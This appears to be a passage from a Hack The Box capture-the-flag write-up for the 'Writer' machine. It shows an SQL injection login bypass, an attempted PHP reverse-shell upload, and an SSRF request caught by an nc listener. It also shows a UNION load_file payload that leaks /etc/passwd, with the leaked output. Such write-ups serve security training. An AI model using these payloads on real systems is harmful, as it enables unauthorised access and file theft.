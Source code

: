 301) [Size: 313] [--> http://10.10.11.101/static/]  \n/.                    (Status: 200) [Size: 11971]  \n/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]  \n/server-status        (Status: 403) [Size: 277]  \n/administrative       (Status: 200) [Size: 1443]\n{% endhighlight %}\n\nA directory of particular interest is /administrative, especially since it cannot be found without brute forcing directories. Visiting this directory reveals a simple login form which asks for a username and password:\n\n![](/reports/Writer/image2.png)\n\nNote the domain of the target (namely writer.htb). However, no virtual host routing is present.\n\nSQL Injection\n-------------\n\nWhen inputting ’OR 1=1-- - as the username and choosing a random value for the password, the user is automatically authenticated, thus confirming the presence of SQL injection. As an authenticated user, stories can be edited and created, and pictures can be uploaded:\n\n![](/reports/Writer/image5.png)\n\nThe web page does not properly check if an uploaded file is an image, as it was possible to upload a reverse shell by the name of php-reverse-shell.jpg.php. This, however, did not lead to RCE as the web page nevertheless treated the file as an image. Furthermore, uploading a malicious image with PHP code did not work.\n\nAn addition to the image upload feature is the ability to upload files given a url. This could be utilized to cause the server to perform GET requests to an arbitrary website of the user’s choice:\n\nRequest\n\n{% highlight bash %} \nPOST /dashboard/stories/add HTTP/1.1Host: 10.10.11.101  \nUser-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0  \nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  \nAccept-Language: en-US,en;q=0.5  \nAccept-Encoding: gzip, deflate  \nContent-Type: multipart/form-data; boundary=---------------------------12417370376638841362770592069  \nContent-Length: 850  \nOrigin: http://10.10.11.101  \nDNT: 1  \nConnection: close  \nReferer: http://10.10.11.101/dashboard/stories/add  \nCookie: session=eyJ1c2VyIjoiJ09SIDE9MS0tIC0ifQ.YSLw7w.2OHVWSzrpZAobEiyfxo94ul3lfg  \nUpgrade-Insecure-Requests: 1  \nSec-GPC: 1  \n  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"author\"  \n  \n0xd4y  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"title\"  \n  \nWriteup  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"tagline\"  \n  \nWriteup  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"image\"; filename  \nContent-Type: application/octet-stream  \n  \n  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"image_url\"  \n  \nhttp://10.10.15.80/image.jpg  \n-----------------------------12417370376638841362770592069  \nContent-Disposition: form-data; name=\"content\"Thanks for reading!  \n-----------------------------12417370376638841362770592069--\n{% endhighlight %}\n\nNote the “image_url” parameter highlighted in red  \n\nResponse\n\n{% highlight bash %}\n┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]  \n└──╼ $sudo nc -lvnp 80  \nlistening on [any] 80 ...  \nconnect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 38018GET /image.jpg HTTP/1.1  \nAccept-Encoding: identityHost: 10.10.15.80  \nUser-Agent: Python-urllib/3.8  \nConnection: close\n{% endhighlight %}\n\nJudging from the user-agent, it was found that the server is running python. After failing to obtain code executions despite trying many different upload attacks, it follows that the source code of the upload feature must be leaked to determine how it works.\n\n### Leveraging SQLi to Read Local Files\n\nThis is possible via the load_file SQL function. Going back to the login page, this function can be used in conjunction with a union select statement to leak files:\n\nPayload\n\n{% highlight bash %}\nuname=\'union select 1,load_file(\'/etc/passwd\'),3,4,5,6-- -&password=a\n{% endhighlight %}\n\nResponse\n\n{% highlight bash %}\nWelcome root:x:0:0:root:/root:/bin/bash  \ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  \nbin:x:2:2:bin:/bin:/usr/sbin/nologin  \nsys:x:3:3:sys:/dev:/usr/sbin/nologin  \nsync:x:4:65534:sync:/bin:/bin/sync  \ngames:x:5:60:games:/usr/games:/usr/sbin/nologin  \nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin  \nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  \nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin  \nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin  \nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  \nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin  \nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  \nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin  \nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  \nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin  \ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  \nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  \nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin  \nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin  \nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin  \nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin  \nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin  \n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin  \ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false  \nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin  \ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin  \nlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin  \npollinate:x:110:1::/var/cache/pollinate:/bin/false  \nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin